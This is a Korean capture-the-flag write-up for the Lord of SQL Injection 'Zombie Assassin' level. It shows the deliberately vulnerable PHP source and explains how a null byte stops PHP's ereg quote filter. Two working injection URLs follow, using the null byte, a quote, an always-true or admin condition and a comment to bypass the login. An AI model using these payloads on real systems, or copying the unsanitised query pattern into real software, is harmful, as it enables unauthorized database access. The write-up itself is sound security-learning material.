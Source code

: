 # Lord of SQL Injection No.16 Zombie Assassin

Zombie Assassin 문제는 `ereg`의 취약점을 이용하도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

```php
if(@ereg("'",$_GET[id])) exit("HeHe");
if(@ereg("'",$_GET[pw])) exit("HeHe");
```

`id`, `pw` 모두 `$_GET` 방식으로 입력을 받는데, `ereg` 함수가 문자열의 `'`을 필터링한 후 `HeHe`를 출력하고 문제 풀이에 실패하게 된다.

#### 문제 풀이 조건
```php
if($result['id']) solve("zombie_assassin");
```

`id`값이 존재하기만 하면 문제 풀이에 성공하게 된다.

## Solution

`ereg` 함수의 취약점은 `no.8 troll` 에서 다룬 적이 있었다.

* [los_writeup - no.8 troll](https://github.com/JaehunYoon/los_writeup/blob/master/los_no8_troll.md)

```
http://los.eagle-jump.org/zombie_assassin_***.php?id=%00%27%20or%20id=%27admin%27%20--%20;
```
`troll` 문제를 풀 때와 마찬가지로 `ereg`가 NULL을 만나 문자열을 더 이상 체크하지 않도록 만들고 `id`값을 임의로 지정해준 후 `pw` 입력 부분은 주석처리를 통하여 무력화시키면 문제 풀이에 성공하게 된다.

```
http://los.eagle-jump.org/zombie_assassin_***.php?id=%00%27%20or%201=1%20--%20;
```
다른 방법으로 NULL로 `ereg`를 종료시킨 후 `1=1` 로 항상 참을 만들어준 후 주석 처리를 해주면 문제 풀이에 성공하게 된다.